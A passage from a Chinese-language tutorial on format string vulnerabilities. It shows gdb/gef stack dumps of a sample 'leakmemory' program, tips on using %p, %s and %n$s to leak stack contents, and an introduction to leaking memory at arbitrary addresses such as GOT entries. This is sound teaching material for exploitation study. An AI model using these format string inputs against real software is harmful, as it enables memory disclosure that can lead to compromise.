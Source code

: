 ```shell
0xffffcd10│+0x14: 0xff007325 ("%s"?)	 ← $eax
0xffffcd14│+0x18: 0xffffce3c  →  0xffffd074  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
0xffffcd18│+0x1c: 0x000000e0
gef➤  c
Continuing.
%s[Inferior 1 (process 57488) exited normally]
```

可以看出，在第二次執行printf函數的時候，確實是將0xffffcd04處的變量視爲字符串變量，輸出了其數值所對應的地址處的字符串。

**當然，並不是所有這樣的都會正常運行，如果對應的變量不能夠被解析爲字符串地址，那麼，程序就會直接崩潰。**

此外，我們也可以指定獲取棧上第幾個參數作爲格式化字符串輸出，比如我們指定第printf的第3個參數，如下，此時程序就不能夠解析，就崩潰了。

```shell
➜  leakmemory git:(master) ✗ ./leakmemory
%2$s
00000001.22222222.ffffffff.%2$s
[1]    57534 segmentation fault (core dumped)  ./leakmemory
```

**小技巧總結**

> 1. 利用%x來獲取對應棧的內存，但建議使用%p，可以不用考慮位數的區別。
> 2. 利用%s來獲取變量所對應地址的內容，只不過有零截斷。
> 3. 利用%order\$x來獲取指定參數的值，利用%order\$s來獲取指定參數對應地址的內容。

### 泄露任意地址內存

可以看出，在上面無論是泄露棧上連續的變量，還是說泄露指定的變量值，我們都沒能完全控制我們所要泄露的變量的地址。這樣的泄露固然有用，可是卻不夠強力有效。有時候，我們可能會想要泄露某一個libc函數的got表內容，從而得到其地址，進而獲取libc版本以及其他函數的地址，這時候，能夠完全控制泄露某個指定地址的內存就顯得很重要了。那麼我們究竟能不能這樣做呢？自然也是可以的啦。

我們再仔細回想一下，一般來說，在格式化字符串漏洞中，我們所讀取的格式化字符串都是在棧上的（因爲是某個函數的局部變量，本例中s是main函數的局部變量）。那麼也就是說，在調用輸出函數的時候，其實，第一個參數的值其實就是該格式化字符串的地址。我們選擇上面的某個函數調用爲例

```shell
Breakpoint 1, __printf (format=0xffffcd10 "%s") at printf.c:28
28	in printf.c
──────────────────────────────────────────────────────────[ code:i386 ]────
   0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
   0xf7e4466d                  nop
   0xf7e4466e                  xchg   ax, ax
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
──────────────────────────────────────────────────────────────[ stack ]────
['0xffffccfc', 'l8']
8
0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10	 ← $esp
0xffffcd00│+0x04: 0xffffcd10  →  0xff007325 ("%s"?)
0xffffcd04│+0x08: 0xffffcd10  →  0xff007325 ("%s"?)
0xffffcd08│+0x0c: 0x000000c2
0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd10│+0x14: 0xff007325 ("%s"?)	 ← $eax
0xffffcd14│+0x18: 0xffffce3c  →  0xffffd074  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
0xffffcd18│+0x1c: 0x000000e0
```
